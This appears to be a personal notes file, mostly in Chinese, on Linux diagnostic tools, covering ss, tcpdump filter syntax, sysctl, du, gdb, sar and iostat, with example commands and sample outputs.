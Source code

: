 * pidof
pidof 任务名
获取指定任务的pid
* ss
ss命令可以用来获取socket统计信息，它可以显示和netstat类似的内容。但ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。
-h, --help 帮助信息
-V, --version 程序版本信息
-n, --numeric 不解析服务名称
-r, --resolve        解析主机名
-a, --all 显示所有套接字（sockets）
-l, --listening 显示监听状态的套接字（sockets）
-o, --options        显示计时器信息
-e, --extended       显示详细的套接字（sockets）信息
-m, --memory         显示套接字（socket）的内存使用情况
-p, --processes 显示使用套接字（socket）的进程
-i, --info 显示 TCP内部信息
-s, --summary 显示套接字（socket）使用概况
-4, --ipv4           仅显示IPv4的套接字（sockets）
-6, --ipv6           仅显示IPv6的套接字（sockets）
-0, --packet         显示 PACKET 套接字（socket）
-t, --tcp 仅显示 TCP套接字（sockets）
-u, --udp 仅显示 UCP套接字（sockets）
-d, --dccp 仅显示 DCCP套接字（sockets）
-w, --raw 仅显示 RAW套接字（sockets）
-x, --unix 仅显示 Unix套接字（sockets）
-f, --family=FAMILY  显示 FAMILY类型的套接字（sockets），FAMILY可选，支持  unix, inet, inet6, link, netlink
-A, --query=QUERY, --socket=QUERY
      QUERY := {all|inet|tcp|udp|raw|unix|packet|netlink}[,QUERY]
-D, --diag=FILE     将原始TCP套接字（sockets）信息转储到文件
 -F, --filter=FILE   从文件中都去过滤器信息
       FILTER := [ state TCP-STATE ] [ EXPRESSION ]


>>>>>>> .r272

* tcpdump用法
  tcpdump相比较wireshark是很轻量的东东，而且机器一般默认安装又不需要图形界面。
  需要注意tcpdump默认获取一个包的前96字节，如果你想看更多，需要使用-s 选项。建议使用-s 0， 会获取所有的数据。
  常用的选项：
-i any : Listen on all interfaces just to see if you're seeing any traffic.
-n : Don't resolve hostnames.
-nn : Don't resolve hostnames or port names.
-X : Show the packet's contents in both hex and ASCII.
-XX : Same as -X, but also shows the ethernet header.
-v, -vv, -vvv : Increase the amount of packet information you get back.
-c : Only get x number of packets and then stop.
-s : Define the size of the capture (use -s0 unless you are intentionally capturing less.)
-S : Print absolute sequence numbers.
-e : Get the ethernet header as well.
-q : Show less protocol information.
-E : Decrypt IPSEC traffic by providing an encryption key.
-s : Set the snaplength, i.e. the amount of data that is being captured in bytes
-c : Only capture x number of packets, e.g. 'tcpdump -c 3'
基本用法：
1. Basic communication
#+begin_src c
   #tcpdump -nS
#+end_src

2. Basic communication (very verbose)
   不再名字解释，
#+begin_example
   #tcpdump -nnvvS
#+end_example
3. A deeper look at the traffic
#+begin_example
   #tcpdump -nnvvXS
#+end_example
4. Heavy packet viewing
//最后's'增加抓取长度，抓取整个包
#+begin_example
#tcpdump -nnvvXSs 1514
#+end_example

下面我们使用上面的选项，仅抓取两个(-c2)ICMP包。
#+begin_example
hermes root # tcpdump -nnvXSs 0 -c2 icmp
tcpdump: listening on eth0, link-type EN10MB (Ethernet), 23:11:10.370321 IP 
(tos 0x20, ttl  48, id 34859, offset 0, flags [none], length: 84) 
69.254.213.43 > 72.21.34.42: icmp 64: echo request seq 0

        0x0000:  4520 0054 882b 0000 3001 7cf5 45fe d52b  E..T.+..0.|.E..+
        0x0010:  4815 222a 0800 3530 272a 0000 25ff d744  H."*..50'*..%..D
        0x0020:  ae5e 0500 0809 0a0b 0c0d 0e0f 1011 1213  .^..............
        0x0030:  1415 1617 1819 1a1b 1c1d 1e1f 2021 2223  .............!"#
        0x0040:  2425 2627 2829 2a2b 2c2d 2e2f 3031 3233  $%&'()*+,-./0123
        0x0050:  3435 3637                                4567
23:11:10.370344 IP (tos 0x20, ttl  64, id 35612, offset 0, flags [none], 
length: 84) 72.21.34.42 > 69.254.213.43: icmp 64: echo reply seq 0
        0x0000:  4520 0054 8b1c 0000 4001 6a04 4815 222a  E..T....@.j.H."*
        0x0010:  45fe d52b 0000 3d30 272a 0000 25ff d744  E..+..=0'*..%..D
        0x0020:  ae5e 0500 0809 0a0b 0c0d 0e0f 1011 1213  .^..............
        0x0030:  1415 1617 1819 1a1b 1c1d 1e1f 2021 2223  .............!"#
        0x0040:  2425 2627 2829 2a2b 2c2d 2e2f 3031 3233  $%&'()*+,-./0123
        0x0050:  3435 3637                                4567
2 packets captured
2 packets received by filter
0 packets dropped by kernel
hermes root # 
#+end_example

Common Syntax
表达式允许你trim out不同的数据通讯，准确找到你需要的数据。
掌握表达式并且学会创造性组合。
有三种类型的表达式：type、dir、proto
type的选项：host，net, port
dir的选项： src, dst, src or dst, src and dst

host //查看这个IP相关的通讯
#+begin_example
#tcpdump host 1.2.3.4
#+end_example

src, dst //查看指定来源或者目的通讯（排除了另一个方向的通讯）
#+begin_example
#tcpdump src 2.3.4.5
#tcpdump dst 3.4.5.6
#+end_example

net //获取这个网络，使用CIDR表示法
#+begin_example
#tcpdump net 1.2.3.0/24
#+end_example

proto // 用于tcp, udp, icmp
#+begin_example
# tcpdump icmp
#+end_example

src port, dst port //使用源端口或者目的端口过滤
#+begin_example
# tcpdump src port 1025 
# tcpdump dst port 389
#+end_example

src/dst, port, protocol //组合三种
#+begin_example
#tcpdump src port 1025 and tcp 
#tcpdump udp and src port 53
#+end_example

你也可以过滤端口范围
Port Ranges //see traffic to any port in a range
#+begin_example
tcpdump portrange 21-23
#+end_example

Packet Size Filter //只能看小于某个值，或者大于某个值的包（单位bytes)
#+begin_example
tcpdump less 32
tcpdump greater 128
tcpdump > 32
tcpdump <= 128
#+end_example

写到文件中：
tcpdump使用-w选项：允许你把抓取的数据写到一个文件中，
然后使用-r选项，读取文件。

捕获所有80端的通讯数据到一个文件
#+begin_example
#tcpdump -s 1514 port 80 -w capture_file
#+end_example

读取通讯数据到tcpdump中
#+begin_example
#tcpdump -r capture_file
#+end_example

逻辑表达式
1. 与: and &&
2. 或: or ||
3. 非: not !

例子
#+begin_example
//源 10.5.2.3 目的端口 3389
tcpdump -nnvvS and src 10.5.2.3 and dst port 3389
// 从192.168 网络发往 10或者172.16网络
tcpdump -nvX src net 192.168.0.0/16 and dst net 10.0.0.0/8 or 172.16.0.0/16
// 从 172.16网络发往 192.168.0.2的非ICMP
tcpdump -nvvXSs 1514 dst 192.168.0.2 and src net 172.16.0.0/16 and not icmp

tcpdump -vv src mars and not dst port 22
#+end_example

Grouping
下面是不对的。
# Traffic that's from 10.0.2.4 AND destined for ports 3389 or 22 (incorrect)
tcpdump src 10.0.2.4 and (dst port 3389 or 22)
需要使用\转义小括号，或者使用单引号，如下
tcpdump 'src 10.0.2.4 and (dst port 3389 or 22)'

** example
*** Filter on protocol (ICMP) and protocol-specific fields (ICMP type) 

 Capture all ICMP with some exceptions. For example, if a host runs lots of pings (SmokePing for example), it is useful to suppress ICMP echo requests and replies from dumped packets: 

: root@myhost:~# tcpdump -n icmp and 'icmp[0] != 8 and icmp[0] != 0'

 Same command can be used with predefined header field offset (icmptype) and ICMP type field values (icmp-echo and icmp-echoreply): 

: root@myhost:~# tcpdump -n icmp and icmp[icmptype] != icmp-echo and icmp[icmptype] != icmp-echoreply

*** Filter on TOS field 

 Capture all IP packets with a non-zero TOS field (one byte TOS field is at offset 1 in IP header): 

: root@myhost:~# tcpdump -v -n ip and ip[1]!=0

*** Filter on TTL field 

 Capture all IP packets with TTL less than some value (on byte TTL field is at offset 8 in IP header): 

: root@myhost:~# tcpdump -v ip and 'ip[8]<2'

*** Filter on TCP flags (SYN/ACK) 

 Catch TCP SYN packets: 

: root@myhost:~# tcpdump -n tcp and port 80 and 'tcp[tcpflags] & tcp-syn == tcp-syn'

 In the example above, all packets with TCP SYN flag set are captured.
 Other flags (ACK, for example) might be set also. Packets which have only TCP SYN flags set, can be captured like this: 
: root@myhost:~# tcpdump tcp and port 80 and 'tcp[tcpflags] == tcp-syn'

 Catch TCP SYN/ACK packets (typically, responses from servers): 
: root@myhost:~# tcpdump -n tcp and 'tcp[tcpflags] & (tcp-syn|tcp-ack) == (tcp-syn|tcp-ack)'

 Same thing: 
: root@myhost:~# tcpdump -n tcp and 'tcp[tcpflags] & tcp-syn == tcp-syn' and 'tcp[tcpflags] & tcp-ack == tcp-ack'

*** Catch ARP packets 

: root@myhost:~# tcpdump -vv -e -nn ether proto 0x0806

*** Filter on IP packet length 

 Catch packets of a specified length (IP packet length (16 bits) is located at offset 2 in IP header): 

: root@myhost:~# tcpdump -l icmp and '(ip[2:2]>50)' -w - |tcpdump -r - -v ip and '(ip[2:2]<60)'
tcpdump: pcap_loop: error reading dump file: Interrupted system call

 Remark: due to some bug in tcpdump, the following command doesn't catch packets as expected: 
: root@myhost:~# tcpdump -v -n icmp and '(ip[2:2]>50)' and '(ip[2:2]<60)'

 Because of this, two tcpdumps were used in the example above (tcpdump -l ... -w - |tcpdump -r -...).
 Option -l is needed to force first tcpdump program to output captured data imeadiately to the second program. 

*** Filter on encapsulated content (ICMP within PPPoE) 

 Capturing packets from PPPoE session. For example: we mirror a link that connects xDSL modem and home PC or router. 
 Mirrored packets are ethernet frames with PPPoE/IP packets encapsulated. 
 In the following example, we are looking for ICMP packets in PPPoE frames. A simple command like 
: root@myhost:~# tcpdump -v -n icmp
 will not produce expected results, because packets that we monitor are being encapsulated into a PPPoE frames. 
 Of course, tcpdump can't locate IP protocol == ICMP at normal offset in an ethernet frame. 
 We must therefore take into account the additional headers: 14 bytes for ethernet and 8 bytes for PPPoE. 
 IP protocol is located at offset 9 in the IP header, which gives us offset 31 in the mirrored ethernet frame.
 Therefore, ICMP packets (protokol 1) are captured with 
: root@myhost:~# tcpdump -v -n ether[31] = 1

Simultaneous output to dump file and (decoded) standard output 

 You may want to dump packets to a file, but still see the decoded headers "live" on your terminal.
 While this is not supported directly by tcpdump you can use the powerful pipe mechanism to obtain this effect: 

: leinen@bonadea[leinen]; sudo tcpdump -s 0 -i tun0 -c 10 -w - -U | tee foo.pcap | tcpdump -n -r -

: leinen@bonadea[leinen]; ls -l foo.pcap
-rw-r--r-- 1 leinen leinen 1184 2008-11-28 11:04 foo.pcap

 Explanation: The first tcpdump call captures the packets, and dumps the (binary) data to standard output (-w -).
 The -U (unbuffered) flag causes each packet to be written out immediately, circumventing the normal output buffering.
 This preserves the real-time characteristics better. The binary packets are piped to the tee command,
 which writes them to a file (foo.pcap) and at the same time outputs them again on standard output. From there, they are decoded using tcpdump -r -.


*** other
 To print all packets arriving at or departing from sundown:

    tcpdump host sundown

To print traffic between helios and either hot or ace:

    tcpdump host helios and \( hot or ace \)

To print all IP packets between ace and any host except helios:

    tcpdump ip host ace and not helios

To print all traffic between local hosts and hosts at Berkeley:

    tcpdump net ucb-ether

To print all ftp traffic through internet gateway snup: (note that the expression is quoted to prevent the shell from (mis-)interpreting the parentheses):

    tcpdump 'gateway snup and (port ftp or ftp-data)'

To print traffic neither sourced from nor destined for local hosts (if you gateway to one other net, this stuff should never make it onto your local net).

    tcpdump ip and not net localnet

To print the start and end packets (the SYN and FIN packets) of each TCP conversation that involves a non-local host.

    tcpdump 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0 and not src and dst net localnet'

To print all IPv4 HTTP packets to and from port 80, i.e. print only packets that contain data, not, for example, SYN and FIN packets and ACK-only packets. (IPv6 is left as an exercise for the reader.)
#+begin_example
    tcpdump 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
#+end_example
To print IP packets longer than 576 bytes sent through gateway snup:
#+begin_example
    tcpdump 'gateway snup and ip[2:2] > 576'
#+end_example
To print IP broadcast or multicast packets that were not sent via Ethernet broadcast or multicast:
#+begin_example
    tcpdump 'ether[0] & 1 = 0 and ip[16] >= 224'
#+end_example
To print all ICMP packets that are not echo requests/replies (i.e., not ping packets):

    tcpdump 'icmp[icmptype] != icmp-echo and icmp[icmptype] != icmp-echoreply'

* 使用telnet测试端口是否联通
=======

* sysctl
** 查看所有可读变量：
  % sysctl -a
** 临时修改一个配置
  % sysctl -w varible=value
** 永久需要修改：
  1 修改/etc/sysctl.conf
  2 执行sysctl -p

* 查看目录占用的硬盘大小
  du -s du -k
  查看占用空间最大
  du -S | sort -n

* gdb
** 调试带参数的程序
  gdb --args ./testprg arg1 arg2 ....
  或者
  r arg1 arg2
  OR
  set arg arg1 arg2
  run
** 线程
   thread n(n为线程号)

   where 查看调用栈
* sar
Using sar you can monitor performance of various Linux subsystems (CPU, Memory, I/O..) in real time.

Using sar, you can also collect all performance data on an on-going basis, store them, and do historical analysis to identify bottlenecks.

Sar is part of the sysstat package.

    Collective CPU usage
    Individual CPU statistics
    Memory used and available
    Swap space used and available
    Overall I/O activities of the system
    Individual device I/O activities
    Context switch statistics
    Run queue and load average data
    Network statistics
    Report sar data from a specific time


 install sysstat
(or)
yum install sysstat
(or)
rpm -ivh sysstat-10.0.0-1.i586.rpm

Install Sysstat from Source

Following are the other sysstat utilities.

    sar collects and displays ALL system activities statistics.
    sadc stands for “system activity data collector”. This is the sar backend tool that does the data collection.
    sa1 stores system activities in binary data file. sa1 depends on sadc for this purpose. sa1 runs from cron.
    sa2 creates daily summary of the collected statistics. sa2 runs from cron.
    sadf can generate sar report in CSV, XML, and various other formats. Use this to integrate sar data with other tools.
    iostat generates CPU, I/O statistics
    mpstat displays CPU statistics.
    pidstat reports statistics based on the process id (PID)
    nfsiostat displays NFS I/O statistics.
    cifsiostat generates CIFS statistics.


Collect the sar statistics using cron job – sa1 and sa2

Create sysstat file under /etc/cron.d directory that will collect the historical sar data.

# vi /etc/cron.d/sysstat
*/10 * * * * root /usr/local/lib/sa/sa1 1 1
53 23 * * * root /usr/local/lib/sa/sa2 -A

If you’ve installed sysstat from source, the default location of sa1 and sa2 is /usr/local/lib/sa. If you’ve installed using your distribution update method (for example: yum, up2date, or apt-get), this might be /usr/lib/sa/sa1 and /usr/lib/sa/sa2.

Note: To understand cron entries, read Linux Crontab: 15 Awesome Cron Job Examples.
/usr/local/lib/sa/sa1

    This runs every 10 minutes and collects sar data for historical reference.
    If you want to collect sar statistics every 5 minutes, change */10 to */5 in the above /etc/cron.d/sysstat file.
    This writes the data to /var/log/sa/saXX file. XX is the day of the month. saXX file is a binary file. You cannot view its content by opening it in a text editor.
    For example, If today is 26th day of the month, sa1 writes the sar data to /var/log/sa/sa26
    You can pass two parameters to sa1: interval (in seconds) and count.
    In the above crontab example: sa1 1 1 means that sa1 collects sar data 1 time with 1 second interval (for every 10 mins).

/usr/local/lib/sa/sa2

    This runs close to midnight (at 23:53) to create the daily summary report of the sar data.
    sa2 creates /var/log/sa/sarXX file (Note that this is different than saXX file that is created by sa1). This sarXX file created by sa2 is an ascii file that you can view it in a text editor.
    This will also remove saXX files that are older than a week. So, write a quick shell script that runs every week to copy the /var/log/sa/* files to some other directory to do historical sar data analysis.

II. 10 Practical Sar Usage Examples

There are two ways to invoke sar.

    sar followed by an option (without specifying a saXX data file). This will look for the current day’s saXX data file and report the performance data that was recorded until that point for the current day.
    sar followed by an option, and additionally specifying a saXX data file using -f option. This will report the performance data for that particular day. i.e XX is the day of the month.

In all the examples below, we are going to explain how to view certain performance data for the current day. To look for a specific day, add “-f /var/log/sa/saXX” at the end of the sar command.

All the sar command will have the following as the 1st line in its output.

$ sar -u
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

    Linux 2.6.18-194.el5PAE – Linux kernel version of the system.
    (dev-db) – The hostname where the sar data was collected.
    03/26/2011 – The date when the sar data was collected.
    _i686_ – The system architecture
    (8 CPU) – Number of CPUs available on this system. On multi core systems, this indicates the total number of cores.


1. CPU Usage of ALL CPUs (sar -u)

This gives the cumulative real-time CPU usage of all CPUs. “1 3″ reports for every 1 seconds a total of 3 times. Most likely you’ll focus on the last field “%idle” to see the cpu load.

$ sar -u 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:27:32 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:27:33 PM       all      0.00      0.00      0.00      0.00      0.00    100.00
01:27:34 PM       all      0.25      0.00      0.25      0.00      0.00     99.50
01:27:35 PM       all      0.75      0.00      0.25      0.00      0.00     99.00
Average:          all      0.33      0.00      0.17      0.00      0.00     99.50

Following are few variations:
    sar -u Displays CPU usage for the current day that was collected until that point.
    sar -u 1 3 Displays real time CPU usage every 1 second for 3 times.
    sar -u ALL Same as “sar -u” but displays additional fields.
    sar -u ALL 1 3 Same as “sar -u 1 3″ but displays additional fields.
    sar -u -f /var/log/sa/sa10 Displays CPU usage for the 10day of the month from the sa10 file.

2. CPU Usage of Individual CPU or Core (sar -P)

If you have 4 Cores on the machine and would like to see what the individual cores are doing, do the following.

“-P ALL” indicates that it should displays statistics for ALL the individual Cores.

In the following example under “CPU” column 0, 1, 2, and 3 indicates the corresponding CPU core numbers.

$ sar -P ALL 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:34:12 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:34:13 PM       all     11.69      0.00      4.71      0.69      0.00     82.90
01:34:13 PM         0     35.00      0.00      6.00      0.00      0.00     59.00
01:34:13 PM         1     22.00      0.00      5.00      0.00      0.00     73.00
01:34:13 PM         2      3.00      0.00      1.00      0.00      0.00     96.00
01:34:13 PM         3      0.00      0.00      0.00      0.00      0.00    100.00

“-P 1″ indicates that it should displays statistics only for the 2nd Core. (Note that Core number starts from 0).

$ sar -P 1 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:36:25 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:36:26 PM         1      8.08      0.00      2.02      1.01      0.00     88.89

Following are few variations:

    sar -P ALL Displays CPU usage broken down by all cores for the current day.
    sar -P ALL 1 3 Displays real time CPU usage for ALL cores every 1 second for 3 times (broken down by all cores).
    sar -P 1 Displays CPU usage for core number 1 for the current day.
    sar -P 1 1 3 Displays real time CPU usage for core number 1, every 1 second for 3 times.
    sar -P ALL -f /var/log/sa/sa10 Displays CPU usage broken down by all cores for the 10day day of the month from sa10 file.

3. Memory Free and Used (sar -r)

This reports the memory statistics. “1 3″ reports for every 1 seconds a total of 3 times. Most likely you’ll focus on “kbmemfree” and “kbmemused” for free and used memory.

$ sar -r 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

07:28:06 AM kbmemfree kbmemused  %memused kbbuffers  kbcached  kbcommit   %commit  kbactive   kbinact
07:28:07 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
07:28:08 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
07:28:09 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
Average:      6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204

Following are few variations:

    sar -r
    sar -r 1 3
    sar -r -f /var/log/sa/sa10

4. Swap Space Used (sar -S)

This reports the swap statistics. “1 3″ reports for every 1 seconds a total of 3 times. If the “kbswpused” and “%swpused” are at 0, then your system is not swapping.

$ sar -S 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

07:31:06 AM kbswpfree kbswpused  %swpused  kbswpcad   %swpcad
07:31:07 AM   8385920         0      0.00         0      0.00
07:31:08 AM   8385920         0      0.00         0      0.00
07:31:09 AM   8385920         0      0.00         0      0.00

Average:      8385920         0      0.00         0      0.00

Following are few variations:

    sar -S
    sar -S 1 3
    sar -S -f /var/log/sa/sa10

Notes:

    Use “sar -R” to identify number of memory pages freed, used, and cached per second by the system.
    Use “sar -H” to identify the hugepages (in KB) that are used and available.
    Use “sar -B” to generate paging statistics. i.e Number of KB paged in (and out) from disk per second.
    Use “sar -W” to generate page swap statistics. i.e Page swap in (and out) per second.

5. Overall I/O Activities (sar -b)

This reports I/O statistics. “1 3″ reports for every 1 seconds a total of 3 times.

Following fields are displays in the example below.

    tps – Transactions per second (this includes both read and write)
    rtps – Read transactions per second
    wtps – Write transactions per second
    bread/s – Bytes read per second
    bwrtn/s – Bytes written per second

$ sar -b 1 3

Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:56:28 PM       tps      rtps      wtps   bread/s   bwrtn/s
01:56:29 PM    346.00    264.00     82.00   2208.00    768.00
01:56:30 PM    100.00     36.00     64.00    304.00    816.00
01:56:31 PM    282.83     32.32    250.51    258.59   2537.37
Average:       242.81    111.04    131.77    925.75   1369.90

Following are few variations:

    sar -b
    sar -b 1 3
    sar -b -f /var/log/sa/sa10

Note: Use “sar -v” to display number of inode handlers, file handlers, and pseudo-terminals used by the system.
6. Individual Block Device I/O Activities (sar -d)

To identify the activities by the individual block devices (i.e a specific mount point, or LUN, or partition), use “sar -d”

$ sar -d 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:59:45 PM       DEV       tps  rd_sec/s  wr_sec/s  avgrq-sz  avgqu-sz     await     svctm     %util
01:59:46 PM    dev8-0      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM    dev8-1      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM dev120-64      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM dev120-65      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM  dev120-0      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM  dev120-1      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM dev120-96      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91
01:59:46 PM dev120-97      1.01      8.08      0.00      8.00      0.01      9.00     

In the above example “DEV” indicates the specific block device.

For example: “dev53-1″ means a block device with 53 as major number, and 1 as minor number.

The device name (DEV column) can display the actual device name (for example: sda, sda1, sdb1 etc.,), if you use the -p option (pretty print) as shown below.

$ sar -p -d 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:59:45 PM       DEV       tps  rd_sec/s  wr_sec/s  avgrq-sz  avgqu-sz     await     svctm     %util
01:59:46 PM       sda      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM      sda1      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM      sdb1      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM      sdc1      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM      sde1      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30

01:59:46 PM      sdf1      8.08      0.

00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM      sda2      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91
01:59:46 PM      sdb2      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91

Following are few variations:

    sar -d
    sar -d 1 3
    sar -d -f /var/log/sa/sa10
    sar -p -d

7. Display context switch per second (sar -w)

This reports the total number of processes created per second, and total number of context switches

$ sar -w 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

08:32:24 AM    proc/s   cswch/s
08:32:25 AM      3.00     53.00
08:32:26 AM      4.00     61.39
08:32:27 AM      2.00     57.00

Following are few variations:

    sar -w
    sar -w 1 3
    sar -w -f /var/log/sa/sa10

8. Reports run queue and load average (sar -q)

This reports the run queue size and load average of last 1 minute, 5 minutes, and 15 minutes. “1 3″ reports for every 1 seconds a total of 3 times.

$ sar -q 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

06:28:53 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
06:28:54 AM         0       230      2.00      3.00      5.00         0
06:28:55 AM         2       210      2.01      3.15      5.15         0
06:28:56 AM         2       230      2.12      3.12      5.12         0
Average:            3       230      3.12      3.12      5.12         0

Note: The “blocked” column displays the number of tasks that are currently blocked and

waiting for I/O operation to complete.

Following are few variations:

    sar -q
    sar -q 1 3
    sar -q -f /var/log/sa/sa10

9. Report network statistics (sar -n)

This reports various network statistics. For example: number of packets received (transmitted) through the network card, statistics of packet failure etc.,. “1 3″ reports for every 1 seconds a total of 3 times.

sar -n KEYWORD

KEYWORD can be one of the following:

    DEV – Displays network devices vital statistics for eth0, eth1, etc.,
    EDEV – Display network device failure statistics
    NFS – Displays NFS client activities
    NFSD – Displays NFS server activities
    SOCK – Displays sockets in use for IPv4
    IP – Displays IPv4 network traffic
    EIP – Displays IPv4 network errors
    ICMP – Displays ICMPv4 network traffic
    EICMP – Displays ICMPv4 network errors
    TCP – Displays TCPv4 network traffic
    ETCP – Displays TCPv4 network errors
    UDP – Displays UDPv4 network traffic
    SOCK6, IP6, EIP6, ICMP6, UDP6 are for IPv6

    ALL – This displays all of the above information. The output will be very long.

$ sar -n DEV 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:11:13 PM     IFACE   rxpck/s   txpck/s   rxbyt/s   txbyt/s   rxcmp/s   txcmp/s  rxmcst/s
01:11:14 PM        lo      0.00      0.00      0.00      0.00      0.00      0.00      0.00
01:11:14 PM      eth0    342.57    342.57  93923.76 141773.27      0.00      0.00      0.00
01:11:14 PM      eth1      0.00      0.00      0.00      0.00      0.00      0.00      0.00

10. Report Sar Data Using Start Time (sar -s)

When you view historic sar data from the /var/log/sa/saXX file using “sar -f” option, it displays all the sar data for that specific day starting from 12:00 a.m for that day.

Using “-s hh:mi:ss” option, you can specify the start time. For example, if you specify “sar -s 10:00:00″, it will display the sar data starting from 10 a.m (instead of starting from midnight) as shown below.

You can combine -s option with other sar option.

For example, to report the load average on 26th of this month starting from 10 a.m in the morning, combine the -q and -s option as shown below.

$ sar -q -f /var/log/sa/sa23 -s 10:00:01
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

10:00:01 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
10:10:01 AM         0       127      2.00      3.00      5.00         0
10:20:01 AM         0       127      2.00      3.00      5.00         0
...
11:20:01 AM         0       127      5.00      3.00      3.00         0
12:00:01 PM         0       127      4.00      2.00      1.00         0

There is no option to limit the end-time. You just have to get creative and use head command as shown below.

For example, starting from 10 a.m, if you want to see 7 entries, you have to pipe the above output to “head -n 10″.

$ sar -q -f /var/log/sa/sa23 -s 10:00:01 | head -n 10
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

10:00:01 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
10:10:01 AM         0       127      2.00      3.00      5.00         0
10:20:01 AM         0       127      2.00      3.00      5.00         0
10:30:01 AM         0       127      3.00      5.00      2.00         0
10:40:01 AM         0       127      4.00      2.00      1.00         2
10:50:01 AM         0       127      3.00      5.00      5.00         0
11:00:01 AM         0       127      2.00      1.00      6.00         0
11:10:01 AM         0       127      1.00      3.00      7.00         2

There is lot more to cover in Linux performance monitoring and tuning. We are only getting started. More articles to come in the performance series.

* Iostat

iostat reports CPU, disk I/O, and NFS statistics. The following are some of iostat command examples.

Iostat without any argument displays information about the CPU usage, 
and I/O statistics about all the partitions on the system as shown below.

$ iostat
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           5.68    0.00    0.52    2.03    0.00   91.76

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda             194.72      1096.66      1598.70 2719068704 3963827344
sda1            178.20       773.45      1329.09 1917686794 3295354888
sda2             16.51       323.19       269.61  801326686  668472456
